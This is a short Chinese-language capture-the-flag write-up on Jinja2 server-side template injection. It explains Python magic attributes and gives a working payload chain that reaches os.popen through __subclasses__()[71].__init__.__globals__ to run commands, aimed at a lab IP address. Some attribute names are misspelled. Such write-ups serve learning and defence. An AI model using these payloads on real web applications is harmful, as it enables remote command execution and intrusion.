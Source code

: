 大概就是一个模板注入、magic万岁！！

先打开界面发现告诉我们是模板注入（模板注入就是先写好一个html文件，然后传参即可实现传递（传递数据即可可视化））

这段代码中的 `html` 就是一个简单的模板文件，当开发者想要这个模板对应的样式时，可以直接用 `render_template_string` 方法来调用这个模板，从而直接把这个样式渲染出来。 而模板注入，就是指 **将一串指令代替变量传入模板中让它执行** ，以这段代码为例，我们在传入 `code` 值时，可以用 `{{}}` 符号来包裹一系列代码，以此替代本应是参数的 `id` 

介绍一下魔术方法

```
_class__`：用于返回该对象所属的类，如某个字符串，他的对象为字符串对象，而其所属的类为`<class 'str'>
```

`__bases__`：以元组的形式返回一个类所直接继承的类。

`--base__`：以字符串返回一个类所直接继承的类

`__mro__`：返回解析方法调用的顺序

`__subclassws__()`：获取类的所有子类

`__init__`：所有自带类都包含init方法，便于利用他当跳板来调用globals

流程：

1. \1. 随意找一个内置类对象利用`__class__`拿到该对象所对应的类型
2. \2. 用`__bases__`或`__mro__`拿到基类`<class 'object'>`

```
''.__class__.__bases__[0].__subclasses__()
().__class__.__mro__[2].__subclasses__()
().__class__.__mro__[-1].__subclasses__()
request.__class__.__mro__[1]
```

1. \1. 用`__subclasses__（）`获取所有子类
2. \2. 在子类中寻找可以合适的继承链执行命令或读取文件

在Python中，所有的类都继承自 `object` 类。`object` 是Python中的基类，也被称为根类。它是所有类的顶级父类，包括用户自定义的类和内置的类。

```php
先通过http://61.147.171.105:63458/{{''.__class__.__mro__[2]}}获取其基类object
再找其内置的子类
   http://61.147.171.105:63458/{{''.__class__.__mro__[2].__subclasses__()}}
然后找到71 site._Printer
通过 `__subclasses__()[71].__init__.__globals__['os'].popen('命令行语句').read()` 来执行命令即可到手
```

